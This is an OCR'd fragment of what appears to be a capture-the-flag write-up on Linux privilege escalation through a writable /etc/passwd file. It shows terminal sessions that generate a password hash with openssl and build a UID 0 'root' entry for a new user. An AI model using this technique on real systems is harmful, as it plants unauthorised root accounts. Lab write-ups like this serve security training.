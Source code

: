 ```
user3@polobox:~$ su - user7
Password: 
Welcome to Linux Lite 4.4 user7
 
Monday 19 October 2020, 13:40:24
Memory Usage: 336/1991MB (16.88%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user7@polobox:~$
```

`No answer needed`

2. Having read the information above, what direction privilege escalation is this attack?

`vertical`

3. Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "`openssl passwd -1 -salt [salt] [password]`" What is the hash created by using this command with the salt, "**new**" and the password "**123**"?

```
user7@polobox:~$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

`openssl passwd -1 -salt new 123`

4. Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

5. Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!

```
user7@polobox:~$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
user7@polobox:~$ nano /etc/passwd
user7@polobox:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:117:Light Display Manager:/var/lib/lightdm:/bin/false
```